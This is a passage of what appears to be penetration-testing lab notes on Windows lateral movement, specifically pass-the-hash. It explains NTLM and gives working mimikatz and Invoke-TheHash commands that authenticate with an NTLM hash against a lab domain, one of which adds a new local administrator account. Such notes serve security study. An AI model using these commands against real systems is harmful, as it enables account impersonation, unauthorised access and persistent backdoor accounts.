 ## Windows Lateral Movement

* Pass the Hash (PtH):

  * attack technique where password hash is used instead of plaintext password for authentication, so there's no need for decryption; it is an attack on authentication protocol

  * NTLM (New Technology LAN Manager) - Window's suite of security protocols for user authentication; it is a SSO (Single Sign-On) solution that uses a challenge-response protocol to verify user identity

  * NTLM is still used for legacy devices, and it stores passwords without 'salting'; Kerberos is the current default authentication mechanism

  * PtH with [mimikatz](https://github.com/gentilkiwi/mimikatz) in Windows:

    ```cmd
    mimikatz.exe privilege::debug "sekurlsa::pth /user:julio /rc4:64F12CDDAA88057E06A81B54E73B949B /domain:inlanefreight.htb /run:cmd.exe" exit
    # sekurlsa:pth - module for PtH
    # /user - username to impersonate
    # /rc4 or /NTLM - hash
    # /domain - domain to which user belongs - if local account, we can use computer name, localhost or .
    # we can get domain name from command 'systeminfo | findstr /B /C:"Domain"'
    # /run - program to run with user context, cmd.exe by default

    # after this we can use cmd.exe to execute commands as that user
    ```
  
  * PtH with PS [Invoke-TheHash](https://github.com/Kevin-Robertson/Invoke-TheHash) in Windows:

    ```ps
    # Invoke-TheHash with SMB
    cd C:\tools\Invoke-TheHash\

    Import-Module .\Invoke-TheHash.psd1

    Invoke-SMBExec -Target 172.16.1.10 -Domain inlanefreight.htb -Username julio -Hash 64F12CDDAA88057E06A81B54E73B949B -Command "net user mark Password123 /add && net localgroup administrators mark /add" -Verbose
    # -Command - executes the command specified
    # -Target - accepts hostname or IP of target
